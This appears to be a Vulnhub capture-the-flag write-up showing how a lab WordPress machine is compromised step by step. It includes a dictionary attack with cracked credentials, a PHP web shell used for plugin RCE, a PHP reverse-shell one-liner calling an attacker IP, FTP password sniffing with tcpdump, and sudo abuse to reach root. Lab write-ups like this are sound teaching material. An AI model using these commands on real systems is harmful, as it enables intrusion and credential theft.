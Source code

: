 ```yaml
---
layout: post
title: Vulnhub - Five86 writeup
date: 2019-01-09 8:00 PM
---
```


## Nmap

![](nmap.png)

We see that there is only two open port. We'll start our enumeration with the HTTP service.

***

## HTTP

Since we can see that the website is supposed to be running wordpress we'll just add the `IP` to our `/etc/hosts`.

```
192.168.56.146 five86-2
```

![](website.png)

I then ran `wpscan` on that website

```bash
➜ wpscan -e u,ap --no-banner --wp-content-dir  wp-content/ --url http://five86-2/
```

![](users.png)

Since I had 5 user names I decided to do dictionary attack on those accounts so I made a list named `users.txt` having all the usernames and used rockyou for password list.

![](cracked.png)

```
barney:spooky1
stephen:apollo1
```

With the `stephen` account I was able to login into FTP service. I enumerated lots of file using FTP but none of them lead me to anything. So I decided to login as `stephen` in WP but again there was nothing interesting. But when we login as `barney` in WP we see that there are some plugins allowed.

![](plugins.png)

If you notice one thing is that only one of them was active so I looked around for any exploit and actually found one [WordPress Plugin Insert or Embed Articulate Content into WordPress - Remote Code Execution](https://www.exploit-db.com/exploits/46981), the only issue in that exploit is that in the end it ask you to visit `wp-admin/uploads/articulate_uploads/poc/index.php?cmd=whoami` but it should be `wp-content/uploads/articulate_uploads/poc/index.php?cmd=whoami` notice the `wp-content` in place of `wp-admin` other than that everything should be same.

```bash
echo "<html>hello</html>" > index.html
echo "<?php echo system($_GET['cmd']); ?>" > index.php
zip poc.zip index.html index.php
```
Then upload the zip file and visit `http://five86-2/wp-content/uploads/articulate_uploads/poc/index.php?cmd=whoami` and you should have the RCE.

![](exp.png)

Now we can use this exploit to get a reverse shell. I tried to run `nc` shell command but it didn't worked so I used the following PHP command:

```bash
php -r '$sock=fsockopen("192.168.56.1",4444);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'
```

![](rev.png)

***

## Privilege escalation

Since I have two username and password I tried to `su` into those account and I was succesfully able to change to `stephen` account.

![](su-step.png)

I then ran my enumeration script and found out that there was a `suid` present but it can only be run by `peter`. Now after looking around for a while I noticed that `stephen` was in `pcap` group.

![](groups.png)

And then in the output of my `enumeration script` I saw that `tcpdump` had some `capabilities`.

![](caps.png)

So I decided to run `tcpdump` on the `lo` interface and just see what I could catch.

```bash
timeout 300 tcpdump -i lo -w hack.pcap
```

And then used `FTP` to download the file easily to my system to analyze it.
In that file I saw that there was some `FTP` protocol and it had the name of `paul` so I read that packet conversation and found the password for `paul`

![](paul-pass.png)

`paul:esomepasswford`

We are paul but we need to become peter so I again looked around and found out that `paul` is allowed to run `/usr/sbin/service` as `peter` because of `sudo-rights`.

![](sudo.png)

I used [`gtfo`](https://github.com/mzfr/gtfo) to search gtfobins for this `service` and found a way we can spawn a shell using it:

![](gtfo.png)

We can run `sudo -u peter service ../../bin/sh`

![](peter.png)

And then I noticed that `peter` have sudo rights too, he was allowed to run `passwd` as `root`.

![](sudo-peter.png)

So I used that to change the password of `root` to `hackerman`.

![](change-passwd.png)

And then got the root shell and root flag.

![](root.png)

***

Really enjoyed this one, looks like we'll be getting another awesome series from [@DCAU7](https://twitter.com/DCAU7).

Thanks to [@Five86_x](https://twitter.com/Five86_x/) for letting me beta test this.

***

Thanks for reading, Feedback is always appreciated.

Follow me [@0xmzfr](https://twitter.com/0xmzfr) for more “Writeups”. And if you'd like to support me considering [donating](https://mzfr.github.io/donate/) 😄
